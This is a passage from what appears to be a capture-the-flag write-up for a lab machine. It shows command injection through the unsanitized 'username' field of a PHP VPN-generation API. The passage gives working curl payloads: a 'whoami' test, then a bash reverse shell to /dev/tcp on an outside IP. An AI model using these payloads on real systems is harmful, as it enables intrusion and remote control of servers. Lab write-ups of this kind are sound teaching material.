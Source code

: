 ```
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
...more vpn...
```

It generates a **VPN** configuration file using **OpenVPN**, likely using a method like `system` (which executes shell commands from PHP). It's probably something like this:

```php
<?php
system("Command-to-generate-vpn -x " . $nuestro_input . " --parametro");
?>
```

This code is not sanitized, meaning we could exploit certain special characters to introduce a malicious command. For example:

If we send the JSON `{"username": "delo; whoami #"}`, the php resulting line will be the following.

```php
<?php
system("Command-to-generate-vpn -x delo; whoami # --parametro");
?>
```

In bash:

```bash
Command-to-generate-vpn -x delo; whoami # --parametro
```

In this line, the `Command-to-generate-vpn` would be executed first, but when reaching the `;`, bash will consider that line as finished and execute what is right after: the command `whoami`.

Additionally, to ensure there is nothing on the right that could modify the behavior of the command we want to execute, we will place a `#` to comment out the rest of the line, which will make bash completely ignore it.

Let’s try this in the API.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; whoami #"}'

www-data
```

The username field is vulnerable to code injection. It didn’t show the VPN because it likely encountered an error, as it skipped the last arguments we've mentioned, and the `system()` function does not return `stderr` responses.

Since we have remote command execution, we will establish a **reverse shell** to operate more comfortably.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; bash -c \"bash -i >& /dev/tcp/10.10.14.48/1234 0>&1\" #"}'
```

